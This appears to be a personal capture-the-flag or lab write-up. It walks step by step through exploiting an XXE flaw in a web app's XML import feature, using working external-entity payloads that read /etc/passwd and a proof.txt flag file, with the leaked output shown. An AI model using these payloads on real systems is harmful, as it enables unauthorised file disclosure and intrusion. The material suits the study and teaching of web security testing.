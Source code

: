 after logged in as `bugs:bugs` identified potential `XXE` vulnerability due to the `import:export` functions at `http://mentor/admin/trainer/1`

![[Pasted image 20241122220936.png]]
the first step in `exploiting` `XXE` is to export to identify what fields are being utilized in the `xml`

upon `hitting export` we get an export download
![[Pasted image 20241122221951.png]]
now we have some paths that we can potentially use to exploit
![[Pasted image 20241122222035.png]]

```xml
┌──(root💀gobots)-[23Nov2024 03:16:12]-[/home/kali/Downloads]
└─# cat export          
<?xml version="1.0"?>
<response><id>1</id><name>Robin Marjan</name><proffesion>Web Development</proffesion><bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio><imgPath>/assets/img/trainers/1.jpg</imgPath></response>
```
script to prettify
```bash
┌──(root💀gobots)-[23Nov2024 03:22:20]-[/home/kali/Downloads]
└─# echo '<response><id>1</id><name>Robin Marjan</name><proffesion>Web Development</proffesion><bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio><imgPath>/assets/img/trainers/1.jpg</imgPath></response>' | xmllint --format -
```
original modified
```xml
<?xml version="1.0"?>
<response>
  <id>1</id>
  <name>Robin Marjan</name>
  <proffesion>Web Development</proffesion>
  <bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>

```
now we need to identify which field is vulnerable to `XXE` by utilizing the `&xxe;` payload
#### test1
test 1:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<response>
  <id>&xxe;</id>
  <name>Robin Marjan</name>
  <proffesion>Web Development</proffesion>
  <bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
upon submission in burp shows a server error - nothing happens
![[Pasted image 20241122223139.png]]

-------------
#### test2

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<response>
  <id>1</id>
  <name>&xxe;</name>
  <proffesion>Web Development</proffesion>
  <bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
upon `importing` test2.xml the name was changed to `Vulnerable to XXE` means this is the field 
![[Pasted image 20241122223759.png]]
now going to try to get `/etc/passwd`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
  <id>1</id>
  <name>&xxe;</name>
  <proffesion>Web Development</proffesion>
  <bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
server error when trying that  - there might be a limit to characters in the `name` field
![[Pasted image 20241122224202.png]]

#### test3 

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<response>
  <id>1</id>
  <name>&xxe;</name>
  <proffesion>&xxe;</proffesion>
  <bio>&xxe;</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
upon importing all fields may be vulnerable to `&xxe;` 
![[Pasted image 20241122224458.png]]
- going to just try the bio for the `/etc/passwd` payload
`test3continued.xml`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
  <id>1</id>
  <name>ligma</name>
  <proffesion>nutsack</proffesion>
  <bio>&xxe;</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
worked, got `/etc/passwd`
![[Pasted image 20241122224810.png]]
what the burp payload looks like
![[Pasted image 20241122224954.png]]
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

#### test4 - to grab `proof.txt`
proof.txt `6e3df80a257c12117191ae6bf310df54`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///proof.txt">
]>
<response>
  <id>1</id>
  <name>ligma</name>
  <proffesion>nutsack</proffesion>
  <bio>&xxe;</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```

![[Pasted image 20241122231007.png]]
what it looks like in `burpsuite`
![[Pasted image 20241122231123.png]]